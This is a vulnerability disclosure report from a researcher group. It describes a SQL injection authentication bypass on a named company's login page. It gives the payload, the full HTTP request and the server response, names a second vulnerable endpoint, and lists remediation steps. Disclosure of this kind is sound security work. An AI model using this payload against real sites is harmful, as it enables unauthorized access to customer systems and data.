 ```yaml
---
layout: reports
permalink: /reports/GWA-2020-022/
tagline: "On 26 February 2020 GlitchWitch discovered ."
image:
  feature:
  hero:
report-id: GWA-2020-022
---
```


## Summary
Due to the lack of input santization it is possible to perform an SQL injection against various end-points on the web application. Using a common SQL injection technique it was possible to bypass authentication and login as an administrative user.


>[About Text Logistics:](http://textlogistics.com/) "Text Logistics provides easy to use tools to help you connect with your customers and promote retention while gaining valuable insight and information. We provide text marketing, appointment reminders, click-to-call service and instant group text alerts."

## Proof of Concept

For a proof of concept we will target the `/clients/signin.asp` end-point. It was noted that the following end-point was also vulnerable `/appstoreredirect.asp?id=1`.

To exploit this vulnerability we can simply input `-1' OR 1=1` into the username field and click submit.

The subsequent request will look like the following

```http
POST /clients/signin.asp HTTP/1.1
Host: www.textlogistics.com
Connection: close
Content-Length: 33
Content-Type: application/x-www-form-urlencoded
User-Agent: Hacker 7.23

email=-1%27+OR+1%3D1%16&password=
```
![image tooltip here](/assets/img/sections/reports/2020/022/textlogistics-signin.png)


we should receive the following response, indicating we have successfully logged in.

```
HTTP/1.1 302 Object moved
Cache-Control: private
Content-Type: text/html
Location: welcome.asp
Server: Microsoft-IIS/8.5
Set-Cookie: memberID=1517; path=/
Set-Cookie: [REDACTED]; path=/
Set-Cookie: [REDACTED]; secure; path=/
X-Powered-By: ASP.NET
X-Powered-By-Plesk: PleskWin
Date: Wed, 26 Feb 2020 03:30:33 GMT
Connection: close
Content-Length: 132

<head><title>Object moved</title></head>
<body><h1>Object Moved</h1>This object may be found <a HREF="welcome.asp">here</a>.</body>
```
![image tooltip here](/assets/img/sections/reports/2020/022/textlogistics-welcome.png)

It is important to note that while this proof of concept only demonstrates an authentication bypass, it would be possible for an attacker to download the entire application database, make modifications, and even perform remote command execution.


## Recommended Actions
 - Implement proper input santization to prevent SQLi and other injection attacks.
 - Inspect logs to determine if unauthorized access to the database has occurred.
 - Implement security and bug reporting information such as a [security.txt](https://securitytxt.org/) file so security researchers can more easily report findings in the future.
 - Perform a full penetration test of the web platform and API to identify further issues.

## Remediation Status

## Response From Affected Party
